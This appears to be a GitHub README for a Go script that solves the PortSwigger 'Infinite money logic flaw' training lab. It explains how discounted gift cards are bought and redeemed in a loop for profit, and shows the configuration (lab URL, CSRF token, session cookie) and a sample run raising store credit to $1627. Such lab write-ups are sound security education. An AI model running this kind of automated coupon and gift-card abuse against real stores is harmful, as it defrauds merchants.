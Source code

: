# Lab: Infinite money logic flaw
DIFFICULTY: PRACTITIONER | LAB: Solved | TAG: infinite-money-logic-flaw

URL: https://portswigger.net/web-security/logic-flaws/examples/lab-logic-flaws-infinite-money

## Lab Description
This lab has a logic flaw in its purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

You can log in to your own account using the following credentials: `wiener:peter`

## Solution

We take advantage of a logic flaw, where we can buy a gift card for $10 with a 30% discount (using a coupon `SIGNUP30`, paying only $7), and after we can redeem the gift card again for $10, so we get a profit of $3 per gift cards.

The script increases the amount of gift cards to buy **until the cap of 99** gift cards per purchase is reached, below you can find the evolution of the purchases and balance:
```
Store Credit Evolution:  [$100 $130 $169 $217 $280 $364 $472 $613 $796 $1033 $1330 $1627]
GiftCard Qty Evolution:  [10   13   16   21   28   36   47   61   79   99    99    ended]
```

## Usage

Before running don't forget to update the configuration variables on the beginning of the file.

Required conf:
```go
const (
	baseURL = "https://acb81f601fca3cc3809b0e5000d900a0.web-security-academy.net/" // your url for the lab
	csrf          = "LCEepui73UVEdHlN3R84TDYwCdfXc5cX"         // get this info from a POST request to /cart/coupon using Burp, or any browser
	cookie        = "session=ZrqCi4oh69dHpHLxSdUv072OJNOfw8Sf" // get this info from a POST request to /cart/coupon using Burp, or any browser
	targetBalance = 1337
)
```

To run just do:
```
go run main.go
```

Expected ouput:
```
$ go run main.go

==================================
==> Current Store Credit: $ 100
=> Buying 10 gift cards to redeem.
==================================

=== Request POST cart
status:  200 OK

=== Request POST cart/coupon
status:  200 OK

=== Request POST cart/checkout
status:  200 OK

=== Request POST gift-card | coupon: WEjfEKdqJu
status:  200 OK

...

Finished executing, current balance: $ 1627
```